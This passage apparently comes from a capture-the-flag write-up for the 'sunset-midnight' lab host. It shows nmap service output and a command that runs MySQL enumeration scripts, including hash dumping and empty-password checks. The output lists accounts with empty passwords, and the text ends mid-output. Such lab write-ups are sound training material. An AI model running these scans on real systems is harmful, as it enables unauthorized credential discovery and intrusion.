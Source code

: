     |_/wp-admin/
    3306/tcp open  mysql   MySQL 5.5.5-10.3.22-MariaDB-0+deb10u1
    | mysql-info: 
    |   Protocol: 10
    |   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
    |   Thread ID: 16
    |   Capabilities flags: 63486
    |   Some Capabilities: IgnoreSigpipes, Support41Auth, Speaks41ProtocolOld, FoundRows, DontAllowDatabaseTableColumn, SupportsTransactions, InteractiveClient, LongColumnFlag, SupportsCompression, ConnectWithDatabase, ODBCClient, SupportsLoadDataLocal, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsMultipleResults, SupportsAuthPlugins, SupportsMultipleStatments
    |   Status: Autocommit
    |   Salt: h_%:2./B;C!uM^tJWU&[
    |_  Auth Plugin Name: mysql_native_password
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 67.85 seconds

## MySQL server

Using builtin nmap scripts we can further enumerate the MySQL service:

    nmap -sV -Pn -vv -script=mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 -p 3306 192.168.94.88

The scan results show us a list of valid MySQL users which we can then exploit:

    Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-12 16:46 EDT
    Nmap scan report for sunset-midnight (192.168.94.88)
    Host is up (0.090s latency).
    
    PORT     STATE SERVICE
    3306/tcp open  mysql
    | mysql-info: 
    |   Protocol: 10
    |   Version: 5.5.5-10.3.22-MariaDB-0+deb10u1
    |   Thread ID: 2118
    |   Capabilities flags: 63486
    |   Some Capabilities: SupportsTransactions, Speaks41ProtocolNew, LongColumnFlag, Support41Auth, ConnectWithDatabase, SupportsLoadDataLocal, IgnoreSigpipes, FoundRows, DontAllowDatabaseTableColumn, ODBCClient, Speaks41ProtocolOld, InteractiveClient, SupportsCompression, IgnoreSpaceBeforeParenthesis, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
    |   Status: Autocommit
    |   Salt: J0R/1GSIUMe4pZRkCN?0
    |_  Auth Plugin Name: mysql_native_password
    | mysql-enum: 
    |   Valid usernames: 
    |     root:<empty> - Valid credentials
    |     netadmin:<empty> - Valid credentials
    |     guest:<empty> - Valid credentials
    |     web:<empty> - Valid credentials
    |     user:<empty> - Valid credentials